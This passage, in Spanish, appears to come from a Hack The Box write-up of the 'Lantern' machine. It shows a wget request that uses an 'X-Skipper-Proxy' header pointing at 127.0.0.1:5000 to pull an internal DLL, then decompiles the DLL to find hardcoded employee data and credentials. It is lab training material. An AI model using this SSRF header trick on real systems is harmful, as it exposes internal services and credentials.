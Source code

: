 ## Decompiling `InternaLantern.dll` -> Information Leakage
Vamos a descargar el recurso `InternaLantern.dll`
```shell
wget http://lantern.htb/_framework/InternaLantern.dll --header 'X-Skipper-Proxy: http://127.0.0.1:5000'
--2024-08-23 18:28:50--  http://lantern.htb/_framework/InternaLantern.dll
Resolving lantern.htb (lantern.htb)... 10.129.233.201
Connecting to lantern.htb (lantern.htb)|10.129.233.201|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 55808 (54K) [application/octet-stream]
Saving to: ‘InternaLantern.dll’

InternaLantern.dll     100%[==========================>]  54,50K  --.-KB/s    in 0,07s   

2024-08-23 18:28:50 (747 KB/s) - ‘InternaLantern.dll’ saved [55808/55808]

┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/lantern/content]
└──╼ [★]$ file InternaLantern.dll 
InternaLantern.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Ahora con `dotPeek` podemos decompilar este dll para ver que contiene.

Vemos que en la clase `Vacancies` hay algunos datos hardcodeados de algunos empleados
![Write-up Image](images/Screenshot_9.png)

Y vemos unas credenciales...